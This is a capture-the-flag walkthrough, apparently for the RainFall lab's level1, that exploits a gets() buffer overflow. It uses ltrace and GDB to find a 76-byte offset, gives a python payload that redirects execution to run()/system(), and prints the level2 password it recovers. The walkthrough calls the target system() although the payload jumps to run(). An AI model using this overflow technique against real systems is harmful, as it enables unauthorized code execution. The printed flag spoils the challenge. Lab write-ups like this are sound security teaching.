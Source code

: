 # Level1 -> 2

## Objective

The goal of Level 2 is to escalate from `level1` to `level2` by exploiting a buffer overflow vulnerability in the `level1` binary. By the end, you should be able to read the password for `level2`.

---

## Step 1: Examine the Binary

After switching to `level1`:

```bash
level0@RainFall:~$ su level1
Password:
level1@RainFall:~$ ls
level1
```

Running the binary with various input lengths shows:

```bash
level1@RainFall:~$ ./level1
aaa
level1@RainFall:~$ ./level1
aaaaaaaaaaaaaaaaaaaaaaaaaaa
level1@RainFall:~$ ./level1
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level1@RainFall:~$ ./level1
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

> Observations:
>
> * The program crashes after a long input → likely a **buffer overflow**.

---

## Step 2: Investigate with `ltrace`

```bash
level1@RainFall:~$ ltrace ./level1
gets(0xbffff720, 47, ...) = 0xbffff720
--- SIGSEGV (Segmentation fault) ---
```

> The program uses `gets()`, which **does not check buffer lengths**, confirming a buffer overflow vulnerability.

---

## Step 3: Determine Offset

To exploit the overflow, we need to find the exact offset to overwrite the return address. Start by creating input of increasing lengths:

```bash
python -c 'print "a" * 20' > /tmp/test
./level1 < /tmp/test
python -c 'print "a" * 40' > /tmp/test
./level1 < /tmp/test
python -c 'print "a" * 60' > /tmp/test
./level1 < /tmp/test
python -c 'print "a" * 80' > /tmp/test
./level1 < /tmp/test
Segmentation fault (core dumped)
```

* The crash occurs around 80 bytes → the **return address is likely near the 72-76th byte**.

---

## Step 3.1: Find the Offset with GDB

You can use GDB to precisely determine the offset needed to overwrite the return address:

1. Start GDB:
    ```bash
    gdb ./level1
    ```

2. Set a breakpoint at `main` and run with a large input:
    ```bash
    (gdb) b main
    (gdb) r < <(python -c 'print("A"*100)')
    ```

3. When the program crashes, check the stack pointer:
    ```bash
    (gdb) info registers esp
    ```

4. Examine the stack near the crash:
    ```bash
    (gdb) x/40x $esp
    ```

5. Look for the sequence of `0x41` (ASCII 'A') and note where it ends—this is where your input overwrites the return address.

6. Adjust your input length and repeat until you see the return address replaced by `0x41414141`.

> This confirms the exact offset needed to control the return address.

---

## Step 4: Analyze in GDB

```bash
gdb ./level1
(gdb) b main
(gdb) r < /tmp/test
```

Step through the program with `ni` (next instruction) until the crash:

* You will notice the return address is overwritten.
* The `run` function eventually calls `system()`.

---

## Step 5: Find the `system()` Address

List functions:

```bash
(gdb) info functions
0x08048360  system
0x08048444  run
0x08048480  main
```

> We will attempt to overwrite the return address to jump to `system()`.

---

## Step 6: Craft Exploit

First attempt (incorrect offset):

```bash
python -c 'print "a" * 72 + "\x44\x84\x04\x08"' > /tmp/test
./level1 < /tmp/test
Illegal instruction (core dumped)
```

* The offset was slightly off.
* Adjusting by 4 bytes:

```bash
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/test
./level1 < /tmp/test
Good... Wait what?
```

> Success! The program executes, giving us a shell-like prompt.

---

## Step 7: Escalate to `level2`

Interact with the program:

```bash
cat /tmp/test - | ./level1
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
exit
```

* The password for `level2` is revealed.
* Exit:

```bash
exit
```

---

## Step 8: Summary

* **Vulnerability:** `gets()` allows a buffer overflow.
* **Offset:** 76 bytes to the return address.
* **Target:** `system()` function in `run()`.
* **Outcome:** Shell execution allows reading the `level2` password.

> With this, you can `su level2` using the retrieved password.

---

**End of Level 2 Walkthrough**
